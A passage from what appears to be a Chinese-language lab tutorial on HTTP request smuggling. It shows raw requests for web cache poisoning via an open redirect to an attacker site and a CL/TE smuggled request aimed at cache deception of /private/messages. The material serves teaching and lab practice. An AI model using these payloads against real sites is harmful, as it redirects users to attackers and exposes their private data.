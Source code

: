 走私的请求到达后端服务器，后端服务器像以前一样通过开放重定向进行响应。服务器会缓存/static/include.js的响应。

```
GET /static/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/

```

当其他用户请求此 URL 时，他们会收到指向攻击者网站的重定向。

### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E5%88%A9%E7%94%A8HTTP%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81%E5%8F%91%E5%8A%A8web%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92"></a>配套靶场：利用HTTP请求走私发动web缓存投毒

首先我们利用重定向原理观察一下是怎么构造的

[<img class="aligncenter" alt="" data-original="https://p5.ssl.qhimg.com/t019346f9bac690ec00.png">](https://p5.ssl.qhimg.com/t019346f9bac690ec00.png)

然后我们就可以在Exploit Server中构造如下payload并修改请求包

[<img class="aligncenter" alt="" data-original="https://p5.ssl.qhimg.com/t0189f08b99c04a0def.png">](https://p5.ssl.qhimg.com/t0189f08b99c04a0def.png)

[<img class="aligncenter" alt="" data-original="https://p1.ssl.qhimg.com/t013114e1212b9ee603.png">](https://p1.ssl.qhimg.com/t013114e1212b9ee603.png)

于是我们再夹带一个请求包以使几乎所有页面都会被缓存，从而实现全范围的投毒

[<img class="aligncenter" alt="" data-original="https://p3.ssl.qhimg.com/t01e2afeb86437176fa.png">](https://p3.ssl.qhimg.com/t01e2afeb86437176fa.png)

多点击几次即可缓存所有页面，因为所有页面都被投毒，导致用户的受到严重影响，所以危害还是很大的

[<img class="aligncenter" alt="" data-original="https://p3.ssl.qhimg.com/t01604f34bb2877625d.png">](https://p3.ssl.qhimg.com/t01604f34bb2877625d.png)

### <a class="reference-link" name="%E5%88%A9%E7%94%A8HTTP%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81%E5%8F%91%E5%8A%A8Web%E7%BC%93%E5%AD%98%E6%AC%BA%E9%AA%97"></a>利用HTTP请求走私发动Web缓存欺骗

Web缓存欺骗是将其他用户接收到的响应作为缓存，从而在缓存有效期内攻击者也能访问到该缓存中包含的敏感信息，这一点是与Web缓存投毒不同的。我们尝试这样构造攻击

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X

```
